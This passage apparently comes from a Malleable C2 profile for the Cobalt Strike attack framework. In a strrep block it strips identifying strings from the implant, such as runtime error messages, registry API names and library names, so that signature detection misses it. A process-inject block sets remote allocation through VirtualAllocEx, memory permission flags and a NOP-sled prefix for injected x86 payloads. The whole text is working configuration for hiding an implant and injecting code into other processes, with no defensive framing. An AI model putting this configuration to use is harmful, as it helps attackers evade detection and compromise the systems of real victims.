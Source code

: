                 strrep "Thursday" "";
                strrep "Friday" "";
                strrep "Saturday" "";
                strrep "January" "";
                strrep "February" "";
                strrep "March" "";
                strrep "April" "";
                strrep "June" "";
                strrep "July" "";
                strrep "August" "";
                strrep "September" "";
                strrep "October" "";
                strrep "November" "";
                strrep "December" "";
                strrep "MM/dd/yy" "";
                strrep "Stack memory around _alloca was corrupted" "";
                strrep "Unknown Runtime Check Error" "";
                strrep "Unknown Filename" "";
                strrep "Unknown Module Name" "";
                strrep "Run-Time Check Failure #%d - %s" "";
                strrep "Stack corrupted near unknown variable" "";
                strrep "Stack pointer corruption" "";
                strrep "Cast to smaller type causing loss of data" "";
                strrep "Stack memory corruption" "";
                strrep "Local variable used before initialization" "";
                strrep "Stack around _alloca corrupted" "";
                strrep "RegOpenKeyExW" "";
                strrep "egQueryValueExW" "";
                strrep "RegCloseKey" "";
                strrep "LibTomMath" "";
                strrep "Wow64DisableWow64FsRedirection" "";
                strrep "Wow64RevertWow64FsRedirection" "";
                strrep "Kerberos" "";
                }
}


process-inject {
    # set remote memory allocation technique
        set allocator "VirtualAllocEx";

    # shape the content and properties of what we will inject
    set min_alloc "51416";
    set userwx    "false";
    set startrwx "true";

    transform-x86 {
        prepend "\x90\x90\x90\x90\x90\x90\x90\x90\x90"; # NOP, NOP!
    }
